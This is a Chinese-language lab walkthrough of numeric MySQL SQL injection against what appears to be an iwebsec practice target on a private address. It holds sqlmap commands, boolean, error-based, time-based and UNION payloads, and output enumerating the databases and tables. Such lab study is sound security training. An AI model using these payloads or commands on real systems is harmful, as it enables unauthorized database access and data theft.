 ## MySQL 数字型 SQLi

```
 都是数字型了，那还说啥，开扫
python  sqlmap.py  -u http://192.168.126.138/sqli/01.php?id=1
```

### 1. **SQL注入漏洞类型**:

- **Boolean-based blind (布尔盲注)**: `id` 参数可以通过布尔逻辑判断是否存在漏洞。例如，`id=(SELECT (CASE WHEN (8634=8634) THEN 1 ELSE (SELECT 9808 UNION SELECT 7169) END))` 这个 payload 会触发一个条件判断，从而确定数据库是否存在注入漏洞。
- **Error-based (基于错误的注入)**: 通过触发 MySQL 错误来获取信息，payload 如：`id=1 AND (SELECT 9556 FROM(SELECT COUNT(*),CONCAT(0x7171627171,(SELECT (ELT(9556=9556,1))),0x7162626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)`。
- **Time-based blind (时间盲注)**: 通过让查询延迟一定时间来确认是否存在漏洞。例如：`id=1 AND (SELECT 8118 FROM (SELECT(SLEEP(5)))mzPa)`，这里会让查询延迟 5 秒。
- **UNION query (联合查询注入)**: `id=1 UNION ALL SELECT NULL,NULL,CONCAT(...)` 表示通过联合查询提取数据。

### 2. **漏洞验证**:

sqlmap 已经确认了 **id** 参数存在多个注入点，且能够利用这些注入点执行不同类型的攻击，比如：

- **Boolean-based blind**: 基于布尔值的盲注。
- **Error-based**: 基于错误的注入，可能通过错误消息泄露信息。
- **Time-based blind**: 通过时间延迟判断漏洞。
- **Union query**: 通过联合查询注入，提取数据库内容。

### 3. **信息泄露**:

- **目标数据库**：MySQL，版本 >= 5.0。
- **操作系统**：Linux CentOS 6。
- **Web 应用技术**：PHP 5.2.17 和 Apache 2.2.15。

```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 --dbs  爆库
available databases [3]:
[*] information_schema
[*] iwebsec
[*] test
```



```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 -D iwebsec --tables
Database: iwebsec
[4 tables]
+-------+
| user  |
| sqli  |
| users |
| xss   |
+-------+
```

